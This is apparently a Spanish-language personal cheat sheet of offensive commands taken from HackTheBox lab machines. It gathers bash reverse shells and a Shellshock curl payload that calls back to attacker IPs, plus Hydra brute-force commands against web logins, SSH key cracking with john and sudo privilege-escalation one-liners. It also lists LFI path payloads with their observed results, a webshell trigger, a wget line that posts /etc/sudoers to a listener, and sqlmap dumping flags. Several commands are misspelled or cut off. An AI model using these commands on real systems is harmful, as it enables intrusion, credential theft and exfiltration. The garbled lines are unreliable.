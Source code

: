 ```yaml
---
layout: single
title: Recordatorio de comandos
date: 2022-07-02
classes: wide
header:
  teaser: /assets/images/bob.png
categories:
  - hackthebox
tags:
---
```


lista de comandos para recordar


![](/assets/images/bob.png)


##Herramientas usadas

-ESTE ARCHIVO SOLO ES PARA PONER FUNCIONES QUE PUEDEN SERVIR A FUTURO COMO COMANDO O HERRAMIENTAS

----
##reverse shell en bash
bash -i >& /de/tcp/10.10.10.10/443 0>&1
#o en caso de que falle es con
bash -c "bash -i >%26 /dev/tcp/10.10.10.10/443 0>%261"


##telnet----
para conectarse a telnet es con los siguientes comandos y funciona para puertos como 110 y 143
 telnet 10.10.10.10 110
 #para listar archivos
LIST
#para leer un archivo
RETR
-----


##identificar encriptados
Para decifrar encriptados podemos intentar con esta pagina que sirve para localizar el tipo
http://web.archive.org/web/20120624074941/http://home.comcast.net/~acabion/refscore.html



##para hacer fuerza bruta a hashes de idrsa u otros usamos johnthe ripper

primero pasamos el idrsa a hash con un script de python que esta en github
https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
#para ejecutarlo es con python exploit.py idrsa

python sshjohn.py idrsa > hash.hash


una vez en hash lo rompemos con john
john hash.hash --wordlist=password.txt
#para entrar a ssh con la clave es con 
ssh orestis@10.10.10.17 -i id_rsa
y ponemos la contrasena



##para la escalada de privilegios usando pkexec y este exploit 
https://github.com/ly4k/PwnKit


##Shellshock attack
para la maquina shocker explotamos shellshock en donde veamos que tiene un directorio cgi-bin podemos intentar explotarlo
para explotar un shellshock debemos abusar de el user agent con este comando ###User-Agent: () { :; };
lo podemos poner en un curl o en burpsuite curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1" http://10.10.10.56/cgi-bin/user.sh

#despues de el user agent podemos ejecutar comandos y ya podiamos enviar un reverse shell

para la escalada de privilegios abusamos de perl con este comando
#sudo perl -e 'exec "/bin/sh";'




##cambio de usuario con privilegios root
en la maquina bashed podemos cambiar de usuario con
sudo -u user

si vemos que tiene permisos root podemos obtener una shell con

sudo -u user /bin/bash




##escalacion con archivos ejecutables con permisos root
 en la maquina nibbles usamos la escalacion de privilegios por medio de un script que nos daba permisos root

pusimos un reverse shell simple en bash y lo ejecutamos como root con este comando

 sudo -u root /home/nibbler/personal/stuff/monitor.sh

esto sucede cuando podemos ejecutar archivos sin contresena con root

#

(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

## estenografia
para la maquina nineveh se utilizo estenpgrafia y las herramientas que use fueron

exiftool para ver si ocultaba datos adentro y
strings para ver que datos en las cadenas ocultaba


##HYDRA
para la maquina nineveh se puede acceder por fuerza bruta con hydra con el siguiente comando
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!" -o pass.tx

este comando es para un metodo https
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"


en esta pagina vemos como hacer ataques con hydra
https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/


##LFI PAYLOADS
para probar un file inclusion podemos probar con estas rutas 

/etc/passwd     No se selecciona ninguna nota.
../../../../../../../../../../etc/passwd        No se selecciona ninguna nota.
ninevehNotes    Advertencia: include(files/ninevehNotes): error al abrir el flujo: no existe tal archivo o directorio en /var/www/html/department/manage.php en la línea 31
ninevehNote     No se selecciona ninguna nota.
files/ninevehNotes/../../../../../../../../../etc/passwd        Nombre de archivo demasiado largo.
files/ninevehNotes/../../../../../../../etc/passwd      Los contenidos de /etc/passwd
/ninevehNotes/../etc/passwd     Los contenidos de /etc/passwd


##para hacer un lfi podemos intentar con la ruta si vemos una extension
http://10.10.10.43/department/manage.php/manage.php?notes=/ninevehNotes/../var/tmp/hack.php&cmd=id
 y para activar la webshell es con
?cmd=id
o
&cmd=id


##HYDRA

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.127.109 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid" -o pass


comando para hacerfuerza bruta en logins

# para hacer fuerza bruta a un hash con john debemos copiar completo el hash y usar la opcion normalmente

# en esta pagina podemos ver los tipos de hashes que hay para crakear

#para hacer sudo con wget podemos hacerlo con estos comandos
sudo wget --post-file=/etc/sudoers <listener IP>
sudo wget http://0.0.0.0 --output-document=/ruta para mover


##ruby dependencias yalm yalm.load es un error de una dependencia de ruby que puede ser vulnerable a ejecucion de comandos en el documento yml que carga yam.load en git_set podemos introduc>



##websocket
para explotarlo podemos con sql con sqlmap que podemos buscar un script en google y podemo ver las opciones

##sqlmap
--dsb enumera databases
-D enumera la base de datos que le pasamos
--tables enumera las tablas dentro de la base de datos
-T enumera la tabla que le pasamos
--colums enumera las columnas en la tabla que le pasamos
-C enumera las columnas que le pasamos
-dump es para obtener una copia de los datos que le pasamos

#comandos para actualizar la pagina de github
git add .
git commit -m "cambio"
git push -u origin
poner usuario y token de github


-

